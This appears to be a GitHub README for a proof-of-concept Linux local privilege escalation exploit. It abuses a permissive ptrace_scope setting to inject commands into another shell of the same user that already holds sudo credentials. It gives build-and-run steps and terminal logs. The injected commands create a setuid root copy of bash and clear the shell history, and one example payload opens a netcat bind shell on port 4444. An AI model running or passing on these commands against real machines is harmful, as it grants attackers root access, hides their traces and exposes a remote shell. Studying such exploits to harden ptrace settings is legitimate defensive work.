 # ptrace misconfiguration local privilege escalation
ptrace misconfiguration Local Privilege Escalation

WARNING! this is a POC, the code is CRAP

video demo on youtube: https://youtu.be/3Qmy1Y8W7A8

Injecting code via ptrace (with same user) in shells with sudo authenticated

Exploit Reqs:
* ptrace enable to attach the processes of the user
* terminal with a sudo user group (attacker)
* terminal with the same user & sudo authenticated (victim)
* run xpk or ptrex 

WARNING: if GDB is installed in the machine is more safe run https://www.exploit-db.com/exploits/46989

'ptrace_scope' misconfiguration Local Privilege Escalation by Marcelo Vazquez (s4vitar) & Victor Lasa (vowkin)

my code is based in the s4vitar & vowkin POC and use ptrace (no GDB dep).


## xpk.c
stdin hijack (using ptrace_do lib https://github.com/emptymonkey/ptrace_do): sudo -S cp /bin/bash /tmp + sudo -S chmod +s /tmp/bash + history -c 
```
gcc -o xpk xpk.c
./xpk
```

WARNING: only works for x86_64 systems (ptrace_do limitation)

* can inject code from x86_64-xpk-compiled to x86_64 process
* can inject code from x86_64-xpk-compiled to x86 process

## ptrex.c:
shellcode injection (using ptrace) execve(python -c import os; os.system("echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1")); 
```
gcc -o ptrex ptrex.c
 ./ptrex 
```

You can also inject your own python code: 

./ptrex full_python_path newcmdline

Example with 
* own python binary: /home/dreg/tmp/python
* bind bash shell python code: import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")
```
./ptrex /home/dreg/tmp/python 'import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")'
```

* works for x86_64 systems & x86 systems
* can inject code from x86_64-ptrex-compiled to x86_64 process
* can inject code from x86-ptrex-compiled to x86 process
* can inject code from x86_64-ptrex-compiled to x86 process

WARNING: inject code from x86-ptrex-compiled to x86_x64 process is not possible

## How to test xpk.c:
Open a terminal with a sudo user group

execute any command with sudo and enter the password, ex:
```
dreg@fr33project:~$ tty
/dev/pts/4
dreg@fr33project:~$ id
uid=1003(dreg) gid=1003(dreg) groups=1003(dreg),27(sudo)
dreg@fr33project:~$ sudo whoami
[sudo] password for dreg:
root
dreg@fr33project:~$ 
```

open other terminal with the same user and execute ./xpk (the name of the exploit executable is important, dont change!)
```
dreg@fr33project:~$ tty
/dev/pts/7
dreg@fr33project:~$ .gcc -o xpk xpk.c
dreg@fr33project:~$ ./xpk
David Reguera Garcia aka Dreg exploit without gdb dep, based in:
https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation
Authors: Marcelo Vazquez  (s4vitar)
         Victor Lasa       (vowkin)

[*] PID -> bash
[*] Path 2660: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2892: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> sh
[*] Path 2998: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2999: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap

[*] Cleaning up...
[*] Spawning root shell...
bash-5.0# id
uid=1003(dreg) gid=1003(dreg) euid=0(root) egid=0(root) groups=0(root),27(sudo),1003(dreg)
bash-5.0# whoami
root
bash-5.0#
```

## How to test ptrex.c:
Open a terminal with a sudo user group

execute any command with sudo and enter the password, ex:
```
dreg@fr33project:~$ tty
/dev/pts/4
dreg@fr33project:~$ id
uid=1003(dreg) gid=1003(dreg) groups=1003(dreg),27(sudo)
dreg@fr33project:~$ sudo whoami
[sudo] password for dreg:
root
dreg@fr33project:~$ 
```

open other terminal with the same user and execute ./xpk (the name of the exploit executable is important, dont change!)
```
dreg@fr33project:~$ tty
/dev/pts/7
dreg@fr33project:~$ .gcc -o ptrex ptrex.c
dreg@fr33project:~$ ./ptrex
ptrex v0.3-beta - MIT License - Copyright 2020
David Reguera Garcia aka Dreg - dreg@fr33project.org
http://github.com/David-Reguera-Garcia-Dreg/ - http://www.fr33project.org/
-
ptrace misconfiguration Local Privilege Escalation
using ptrace (no GDB dep) execve
-
Based from: https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation by Marcelo Vazquez (s4vitar) & Victor Lasa (vowkin)

To change default python path & cmd injected: ./ptrex full_python_path newcmdline
    example: ./ptrex /home/dreg/tmp/python 'import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")'

/proc/sys/kernel/yama/ptrace_scope : 0
pgrep "^(echo $(cat /etc/shells | tr '/' ' ' | awk 'NF{print $NF}' | tr '\n' '|'))$" -u "$(id -u)" | sed '$ d'
current pid: 18888
skipping current shell pid: 18888
current pid: 20156
elf plat: 64
waiting for process
getting registers
injecting shellcode at: 0x00007f33a88890e9
setting instruction pointer to: 0x00007f33a88890e9
runing
please wait...
found suid shell: /tmp/bash
rooting.....
/tmp/bash -p -c 'rm /tmp/bash ; tput cnorm && /bin/bash -p'

bash-5.0# whoami
root
bash-5.0#
```
## WORKING ON:

* Parrot Home/Workstation: 4.6 
* Parrot Security: 4.6 
*	CentOS / RedHat: 7.6 
*	Kali Linux: 2018.4 
* Debian GNU/Linux: 10 (buster)

## CONTRIBUTORS

nobody loves me

## TODO

*  Research why GDB call system("") is more stable. my code needs the "python -c" thing for a safe execve injection in a bash shell (in other processes I can inject any execve(cmd) without problems, no idea why).

